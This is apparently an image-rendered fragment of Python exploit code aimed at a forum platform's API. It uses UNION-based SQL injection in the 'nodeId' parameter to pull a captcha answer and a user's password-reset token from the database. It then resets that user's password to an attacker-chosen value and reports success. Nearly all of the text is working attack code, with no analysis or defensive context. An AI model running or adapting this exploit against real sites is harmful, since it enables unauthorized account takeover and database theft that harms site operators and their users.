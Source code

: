         ## Let's create a Human Verify Captcha
        sPath = 'ajax/api/hv/generateToken?'
        lData = {'securitytoken':'guest'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if 'hash' in sResponse: sHash = sResponse.split('hash')[1].split(':')[1].replace('}','').replace('"','')
        else: sHash = ''

        ## Get the captcha answer from DB
        sPath = 'ajax/api/content_infraction/getIndexableContent'
        lData = {'nodeId[nodeid]':'1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,count(answer),8,7,6,5,4,3,2,1 from ' + sPrefix + 'humanverify limit 0,1--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if 'rawtext' in sResponse: iAnswers = int(sResponse.split('rawtext')[1].split(':')[1].replace('}','').replace('"',''))
        else: iAnswers = 1

        lData = {'nodeId[nodeid]':'1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,answer,8,7,6,5,4,3,2,1 from ' + sPrefix + 'humanverify limit ' + str(iAnswers-1) + ',1--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if 'rawtext' in sResponse: sAnswer = sResponse.split('rawtext')[1].split(':')[1].replace('}','').replace('"','')
        else: sAnswer = ''

        ## Now request PW reset and retrieve the token
        sPath = 'auth/lostpw'
        lData = {'email':sUsermail,'humanverify[input]':sAnswer,'humanverify[hash]':sHash,'securitytoken':'guest'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        
        sPath = 'ajax/api/content_infraction/getIndexableContent'
        lData = {'nodeId[nodeid]':'1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,activationid,8,7,6,5,4,3,2,1 from ' + sPrefix + 'useractivation WHERE userid=' + sUserid + ' limit 0,1--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if 'rawtext' in sResponse: sToken = sResponse.split('rawtext')[1].split(':')[1].replace('}','').replace('"','')
        else: sToken = ''

        ## Finally the password reset itself
        sPath = 'auth/reset-password'
        lData = {'userid':sUserid,'activationid':sToken,'new-password':sNEWPASS,'new-password-confirm':sNEWPASS,'securitytoken':'guest'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if not 'Logging in' in sResponse:
            print('[-] Failed to reset the password')
            return ''
        else:
            print('[+] Success! User ' + sUsername + ' now has password ' + sNEWPASS)
        return sUserid
